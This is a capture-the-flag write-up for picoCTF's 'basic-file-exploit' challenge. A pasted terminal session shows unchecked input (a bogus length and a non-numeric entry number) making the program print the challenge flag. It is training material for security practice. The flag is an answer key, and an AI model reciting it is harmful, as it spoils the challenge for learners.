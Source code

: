 # basic-file-exploit
### Description
>The program provided allows you to write to a file and read what you wrote from it.
>Try playing around with it and see if you can break it!

### Solution

```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Please enter the length of your data:
1000
1000
Your entry number is: 1
Write successful, would you like to do anything else?
Please put in a valid number
2
2
Please enter the entry number of your data:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_9F68795F}
```

### Writer
[yu1hpa](https://twitter.com/yu1hpa)
